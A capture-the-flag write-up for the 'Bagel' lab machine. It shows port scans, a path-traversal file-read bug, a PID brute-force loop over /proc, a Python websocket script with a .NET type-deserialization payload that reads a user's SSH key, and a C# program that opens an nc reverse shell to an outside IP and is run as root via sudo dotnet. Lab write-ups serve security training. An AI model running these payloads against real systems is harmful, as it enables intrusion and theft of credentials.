## RUSTSCAN:
`PORT     STATE SERVICE  REASON         VERSION
22/tcp   open  ssh      syn-ack ttl 63 OpenSSH 8.8 (protocol 2.0)
| ssh-hostkey:
|   256 6e4e1341f2fed9e0f7275bededcc68c2 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEwHzrBpcTXWKbxBWhc6yfWMiWfWjPmUJv2QqB/c2tJDuGt/97OvgzC+Zs31X/IW2WM6P0rtrKemiz3C5mUE67k=
|   256 80a7cd10e72fdb958b869b1b20652a98 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAINnQ9frzL5hKjBf6oUklfUhQCMFuM0EtdYJOIxUiDuFl
5000/tcp open  upnp?    syn-ack ttl 63
| fingerprint-strings:
|   GetRequest:
|     HTTP/1.1 400 Bad Request
|     Server: Microsoft-NetCore/2.0
|     Date: Mon, 20 Feb 2023 09:04:09 GMT
|     Connection: close
|   HTTPOptions:
|     HTTP/1.1 400 Bad Request
|     Server: Microsoft-NetCore/2.0
|     Date: Mon, 20 Feb 2023 09:04:25 GMT
|     Connection: close
|   Help:
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/html
|     Server: Microsoft-NetCore/2.0
|     Date: Mon, 20 Feb 2023 09:04:35 GMT
|     Content-Length: 52
|     Connection: close
|     Keep-Alive: true
|     <h1>Bad Request (Invalid request line (parts).)</h1>
|   RTSPRequest:
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/html
|     Server: Microsoft-NetCore/2.0
|     Date: Mon, 20 Feb 2023 09:04:10 GMT
|     Content-Length: 54
|     Connection: close
|     Keep-Alive: true
|     <h1>Bad Request (Invalid request line (version).)</h1>
|   SSLSessionReq, TLSSessionReq, TerminalServerCookie:
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/html
|     Server: Microsoft-NetCore/2.0
|     Date: Mon, 20 Feb 2023 09:04:36 GMT
|     Content-Length: 52
|     Connection: close
|     Keep-Alive: true
|_    <h1>Bad Request (Invalid request line (parts).)</h1>
8000/tcp open  http-alt syn-ack ttl 63 Werkzeug/2.2.2 Python/3.10.9
|_http-server-header: Werkzeug/2.2.2 Python/3.10.9
| http-methods:
|_  Supported Methods: OPTIONS HEAD GET
|_http-title: Did not follow redirect to http://bagel.htb:8000/?page=index.html
| fingerprint-strings:
|   FourOhFourRequest:
|     HTTP/1.1 404 NOT FOUND
|     Server: Werkzeug/2.2.2 Python/3.10.9
|     Date: Mon, 20 Feb 2023 09:04:10 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 207
|     Connection: close
|     <!doctype html>
|     <html lang=en>
|     <title>404 Not Found</title>
|     <h1>Not Found</h1>
|     
The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.

|   GetRequest:
|     HTTP/1.1 302 FOUND
|     Server: Werkzeug/2.2.2 Python/3.10.9
|     Date: Mon, 20 Feb 2023 09:04:04 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 263
|     Location: http://bagel.htb:8000/?page=index.html
|     Connection: close
|     <!doctype html>
|     <html lang=en>
|     <title>Redirecting...</title>
|     <h1>Redirecting...</h1>
|     
You should be redirected automatically to the target URL: <a href="http://bagel.htb:8000/?page=index.html">http://bagel.htb:8000/?page=index.html</a>. If not, click the link.
|   Socks5:
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN"
|     "http://www.w3.org/TR/html4/strict.dtd">
|     <html>
|     <head>
|     <meta http-equiv="Content-Type" content="text/html;charset=utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     
Error code: 400

|     
Message: Bad request syntax ('
|     ').

|     
Error code explanation: HTTPStatus.BAD_REQUEST - Bad request syntax or unsupported method.

|     </body>
|_    </html>
2 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service`
* * *
## SSH:
So far SSH version is pretty new so i assume we can't do that much on this service and Bruteforce is not contepled in the machine solution.
* * *
## PORT 5000:
Trying to CURL or visit website doesn't give anything back:


Neither a Webdirectory fuzzing gives anything, wondering what can that port may be:

* * *
## PORT 8000:
Moving to port 8000 we can find what is more lilke to a Website. Surfing the page we get a rewrite to a index.html page and what it can remind to a LFI?


And surfing the website we can see the structure in Burpsuite:


Opening the order page seems like a list about all the orders where we can grab some users/customers?
`order #1 address: NY. 99 Wall St., client name: P.Morgan, details: [20 chocko-bagels]
order #2 address: Berlin. 339 Landsberger.A., client name: J.Smith, details: [50 bagels]
order #3 address: Warsaw. 437 Radomska., client name: A.Kowalska, details: [93 bel-bagels] `

Running a Webdirectories fuzzing we can find only one webdirectory:
`┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads]
└─# dirsearch -u 'http://bagel.htb:8000'
  _|. _ _  _  _  _ _|_    v0.4.3.post1
 (_||| _) (/_(_|| (_| )
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460
Output File: /home/aleksandar/Downloads/reports/http_bagel.htb_8000/_23-02-20_11-18-06.txt
Target: http://bagel.htb:8000/
[11:18:06] Starting:
[11:19:15] 200 -  267B  - /orders`

Running a chained fuzzing on /orders didn't gave us anything. So now i guess we could try to FUZZ that ?page=index.html to see if we can find other pages?


Nothing helped us that much so going back on the LFI path we can try some manual LFI from here: https://book.hacktricks.xyz/pentesting-web/file-inclusion#basic-lfi-and-bypasses
And seems like it's vulnerable to LFI:


Passwd reveals 2 users(phil and developer) and root. So now we must check what is the Environment path of the webapp, to do so we can try to read: https://book.hacktricks.xyz/pentesting-web/file-inclusion#via-proc-self-environ


Now that we know the basepath should be /home/developer and the process id is 891. Now it helped us partially since we know the basepath of the webapp but we still don't now more so here i had to check for tips and apparently there is another file in /proc/self/ called cmdline that holds the Shell envirormental variable and that shows the full Path of the app.


Now that we know is pointing to /app/app.py we may want to try to read it via LFI:

`HTTP/1.1 200 OK
Server: Werkzeug/2.2.2 Python/3.10.9
Date: Mon, 20 Feb 2023 11:04:26 GMT
Content-Disposition: inline; filename=app.py
Content-Type: text/x-python; charset=utf-8
Content-Length: 1235
Last-Modified: Sun, 23 Oct 2022 14:06:13 GMT
Cache-Control: no-cache
ETag: "1666533973.0-1235-3339458021"
Date: Mon, 20 Feb 2023 11:04:26 GMT
Connection: close
from flask import Flask, request, send_file, redirect, Response
import os.path
import websocket,json
app = Flask(__name__)
@app.route('/')
def index():
        if 'page' in request.args:
            page = 'static/'+request.args.get('page')
            if os.path.isfile(page):
                resp=send_file(page)
                resp.direct_passthrough = False
                if os.path.getsize(page) == 0:
                    resp.headers["Content-Length"]=str(len(resp.get_data()))
                return resp
            else:
                return "File not found"
        else:
                return redirect('http://bagel.htb:8000/?page=index.html', code=302)
@app.route('/orders')
def order(): # don't forget to run the order app first with "dotnet <path to .dll>" command. Use your ssh key to access the machine.
    try:
        ws = websocket.WebSocket()    
        ws.connect("ws://127.0.0.1:5000/") # connect to order app
        order = {"ReadOrder":"orders.txt"}
        data = str(json.dumps(order))
        ws.send(data)
        result = ws.recv()
        return(json.loads(result)['ReadOrder'])
    except:
        return("Unable to connect")
if __name__ == '__main__':
  app.run(host='0.0.0.0', port=8000)
`

Now here we can see that port 5000 was indeed something in the background and a Websocket is opening so we may want to exploit that so we can write some code on the machine. Then a comment is pointing towards a .dll.
Again forums pointed towards how to find the dll by bruteforcing PIDs and trying to read the /proc/<PID>/cmdline 
`for i in $(seq 900 1000); do curl $IP:8000/?page=../../../../proc/$i/cmdline -o -; echo "  PID => $i"; done `

And running the command shows us the actual path of the dll:


Can we curl the dll and download it? using the whole path from image is not working but by ommintting /dotnet/ seems working:


So now we should be able to download the dll:


Now we must try to decompile the software, and I will use this SW in my Windows machine: https://github.com/codemerx/CodemerxDecompile
Opening the file we can see some code pointing to a DB?


After some testing those credentials seems like a Rabbithole so I had to check for tips againg and apparently the DLL should guide us about which functions we should exploit, and more specifically that ReadOrder have a LFI protection that replaces / and .. with null:


Which remains to use is RemoveOrder:


Now going back on the app.py we can grab part of that code and use it in order to exploit the LFI fully:
` 
import os.path
import websocket,json
ws = websocket.WebSocket()    
ws.connect("ws://bagel.htb:5000/") # connect to order app
order = {"ReadOrder":"orders.txt"}
data = str(json.dumps(order))
ws.send(data)
result = ws.recv()
print(result)
`
And it works so far:


Now that we adapted the code to make it work for us for the Read function we must switch to RemoveOrder and the reason is that RemoveOrder have no restrictions on the Filename or LFI:


This should be exploitable by calling ReadOrder fuction within the RemoveOrder function:
`order = {"RemoveOrder" : {"ReadFile" : "../../../../../../home/phil/user.txt"} } `


But seems like it's not working so I had to check for tips on forum and the key was to basically the ReadFile function:


This is part of a Class called File under namespace bagel_server we need to server a new variable as begel_server.File jadda, ReadFile. This can be translated as:
`order = {"RemoveOrder":{"$type":"bagel_server.File, bajs","ReadFile":"../../../../../../home/phil/user.txt"}} `

This will create a New object bagel_server.File with type Bagel and then invoke readfile from the new created object...
We can do same to read phils SSH key:



Saving the key gives us ssh access to machine:


Now regarding the PE from Philip to Root I will upload a Linpeas on the server to check what can we see more?
`╔══════════╣ Mails (limit 50)
  2171569      0 -rw-rw----   1 rpc      mail            0 Oct 22 20:43 /var/mail/rpc
  2171570      0 -rw-rw----   1 developer mail            0 Oct 22 21:01 /var/mail/developer
  2171571      0 -rw-rw----   1 phil      mail            0 Oct 22 21:03 /var/mail/phil
  2171569      0 -rw-rw----   1 rpc       mail            0 Oct 22 20:43 /var/spool/mail/rpc
  2171570      0 -rw-rw----   1 developer mail            0 Oct 22 21:01 /var/spool/mail/developer
  2171571      0 -rw-rw----   1 phil      mail            0 Oct 22 21:03 /var/spool/mail/phil
`

So far nothing, so here i guess is something about dotnet so we have to write a Console application that reads the /root/root.txt:
`[phil@bagel yovecio]$ cat Program.cs
// See https://aka.ms/new-console-template for more information
using System.Diagnostics;
Console.WriteLine("Starting NC Revshell!");
Process NC = new Process();
NC.StartInfo.FileName   = "/usr/bin/nc";
NC.StartInfo.Arguments = "-e /bin/bash 10.10.14.137 5555";
NC.Start();`

I tried and tried but i got always NC as phil and not user then i checked back and we found some credentials in the DLL which where indeed for a Developer user. Trying to switch from phil to developer with the password from the DDL gives us good path:


Now we can see that developer can run /usr/bin/dotnet as root user so we can surely use our code to execute a nc as root this time:


We have all the files created as Developer and lastly we should be able to do sudo dotnet run and it will catch our listener with a root user :)



Now grab the last flag:


* * *
